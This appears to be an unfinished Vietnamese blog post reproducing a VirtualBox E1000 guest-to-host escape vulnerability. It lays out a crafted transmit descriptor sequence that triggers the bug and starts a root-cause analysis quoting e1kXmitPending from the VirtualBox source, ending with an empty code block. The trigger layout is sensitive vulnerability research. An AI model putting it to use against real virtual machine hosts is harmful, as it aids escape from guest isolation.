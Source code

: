 ```yaml
---
title: "Virtualbox e1000 0day Reproduce"
date: 2022-11-28
draft: false
summary: "VirtualBox E1000 Guest-to-Host Escape. But it not done yet ...."
tags: ["virtualbox"]
---
```


-----
mảng Tx(transmit) descriptor sẽ trông như thế này
` [context_1, data_2, data_3, context_4, data_5] `

```c
context_1.header_length = 0
context_1.maximum_segment_size = 0x3010
context_1.tcp_segmentation_enabled = true

data_2.data_length = 0x10
data_2.end_of_packet = false
data_2.tcp_segmentation_enabled = true

data_3.data_length = 0
data_3.end_of_packet = true
data_3.tcp_segmentation_enabled = true

context_4.header_length = 0
context_4.maximum_segment_size = 0xF
context_4.tcp_segmentation_enabled = true

data_5.data_length = 0x4188
data_5.end_of_packet = true
data_5.tcp_segmentation_enabled = true
``` 
### Phân tích nguyên nhân cốt lỗi gây ra bug


Các hàm quan trọng cần phải nắm 
1. `e1kXmitPending()` (src/VBox/Devices/Network/DevE1000.cpp)
```c
static int e1kXmitPending(PE1KSTATE pThis, bool fOnWorkerThread)
{
...
    while (!pThis->fLocked && e1kTxDLazyLoad(pThis))
        {
            while (e1kLocateTxPacket(pThis))
            {
                fIncomplete = false;
                /* Found a complete packet, allocate it. */
                rc = e1kXmitAllocBuf(pThis, pThis->fGSO);
                /* If we're out of bandwidth we'll come back later. */
                if (RT_FAILURE(rc))
                    goto out;
                /* Copy the packet to allocated buffer and send it. */
                rc = e1kXmitPacket(pThis, fOnWorkerThread);
                /* If we're out of bandwidth we'll come back later. */
                if (RT_FAILURE(rc))
                    goto out;
            }
        }
...
}
```
```c
```